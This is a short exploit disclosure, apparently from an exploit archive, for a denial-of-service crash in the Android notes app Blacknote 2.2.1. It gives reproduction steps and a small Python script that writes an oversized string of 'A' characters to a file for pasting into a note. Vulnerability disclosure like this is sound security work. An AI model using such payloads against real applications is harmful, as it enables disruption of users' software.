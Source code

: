     # Exploit Title: Blacknote 2.2.1 - Denial of Service (PoC)
    # Date: 2021-06-02
    # Author: Brian Rodríguez
    # Download Link: https://play.google.com/store/apps/details?id=notepad.note.notas.notes.notizen&hl=es_MX
    # Version: 2.2.1
    # Category: DoS (Android)

    ##### Vulnerability #####

    BlackNote Bloc de notas is vulnerable to a DoS condition when a long list of characters is being used when creating a note:

    # STEPS #
    # Open the program.
    # Create a new Note.
    # Run the python exploit script payload.py, it will create a new payload.txt file
    # Copy the content of the file "payload.txt"
    # Paste the content from payload.txt twice in the new Note.
    # Crashed

    Successful exploitation will cause the application to stop working.

    I have been able to test this exploit against Android 8.0.

    ##### PoC #####
    --> payload.py <--
    #!/usr/bin/env python
    buffer = "\x41" * 350000

    try:
        f = open("payload.txt","w")
        f.write(buffer)
        f.close()
        print ("File created")
    except:
        print ("File cannot be created")